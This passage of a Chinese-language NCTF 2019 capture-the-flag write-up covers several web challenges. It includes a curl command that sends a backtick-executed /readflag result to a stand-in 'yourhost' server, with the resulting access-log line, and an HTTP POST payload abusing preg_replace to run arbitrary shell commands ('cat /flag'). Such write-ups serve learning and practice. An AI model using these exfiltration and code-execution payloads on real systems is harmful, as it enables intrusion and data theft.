 ```bash
curl "http://yourhost/?flag=`/readflag`"
```

这里 /readflag 是渗透后常用的读flag的方法。  

反引号用来把一个命令的执行结果作为字符串。

然后在你的服务器的apache之access.log中就可以找到访问的记录。  

```
root@vultr:/var/log/apache2# cat access.log | grep flag
47.104.67.14 - - [23/Nov/2019:12:44:08 +0000] "GET /?flag=NCTFu_arrree_S0_c3refu1_aaaaaaa HTTP/1.1" 200 1153 "-" "curl/7.52.1"
root@vultr:/var/log/apache2# 
```

`NCTF{u_arrree_S0_c3refu1_aaaaaaa}`

### Upload [Unsolved]

找到了上传点，并且发现过滤方式为：后端的MIME TYPE检测+文件名白名单检测+文件幻数检测。  

上传之后访问不到文件，也不知道文件会不会被访问。。不知道怎么办了

### Replace

首先经过了很多尝试，发现使用的是preg_match()函数。  

又尝试了很多字串，发现第三个参数不安全。  

具体原理还不太清楚，需要进一步研究

Payload:

```http
POST /index.php HTTP/1.1
Host: nctf2019.x1ct34m.com:40006
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 62
Origin: http://nctf2019.x1ct34m.com:40006
Connection: close
Referer: http://nctf2019.x1ct34m.com:40006/index.php
Cookie: PHPSESSID=vkr2rl8eptbuvuhklr21d7ot7v
Upgrade-Insecure-Requests: 1

sub=system&pat=&rep=$_POST[sub]($_POST[shell])&shell=cat /flag
```

shell变量可以执行任意命令。

`NCTF{getshe11_has_different_methods}`

### Flask Website [Unsolved]
